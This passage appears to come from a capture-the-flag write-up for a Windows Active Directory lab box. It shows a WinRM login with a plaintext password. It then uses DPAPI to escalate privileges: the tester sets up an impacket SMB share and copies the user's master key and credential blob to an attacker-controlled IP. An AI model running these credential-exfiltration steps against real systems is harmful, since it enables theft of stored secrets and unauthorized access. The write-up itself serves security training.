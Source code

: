 ```
        <attribute name="groupName" ldap-attribute="cn" />
        <attribute name="groupMember" ldap-attribute="member" />
    </group-attributes>
    <search-filter>
        <filter>(&(objectClass=person)(uid=%s))</filter>
    </search-filter>
</ldap-config>
```

Again, we connect to Winrm with this user:

```
evil-winrm -i $IP -u steph.cooper  -p ChefSteph2025!
```

## Privilege Escalation

### DPAPI

There are DPAPI-protected secrets to extract. The following guide shows how to export the necessary blobs from the target and transfer them to an attacker-controlled SMB share for offline decryption.

[DPAPI secrets](https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets)

First, we set up the SMB server:

```
mkdir my-share
```
```
impacket-smbserver share ./my-share -smb2support
```

On the target (via WinRM), copy the user's master key and credential blob to your SMB share. 

```
copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407" \\10.10.14.83\share\masterkey_blob
```
```
copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9" \\10.10.14.83\share\credential_blob
```

To find the SID, we type: whoami /user

```
*Evil-WinRM* PS C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials> whoami /user

USER INFORMATION
----------------

User Name          SID
================== ==============================================
puppy\steph.cooper S-1-5-21-1487982659-1829050783-2281216199-1107
*Evil-WinRM* PS C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials>
```
